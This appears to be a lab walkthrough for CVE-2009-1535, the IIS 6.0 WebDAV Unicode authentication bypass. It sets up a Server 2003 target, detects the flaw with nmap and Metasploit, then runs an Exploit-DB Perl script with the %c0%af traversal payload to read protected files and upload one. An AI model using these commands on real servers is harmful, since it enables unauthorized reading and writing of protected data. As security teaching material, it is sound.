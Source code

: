 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass

Part 1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part 2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

CVE-2009-1535 IIS 6.0 WebDAV Unicode Authentication Bypass

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:
```
C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt
```
2. Enable WebDAV...
```
Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 
```
3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3
```
Option 2: using Metasploit module
```
msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass
```
Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
# echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
```
Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af
```
> path
```
Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
```
> source
```
perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
```
> put  =>  /root/pm.txt
```
Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

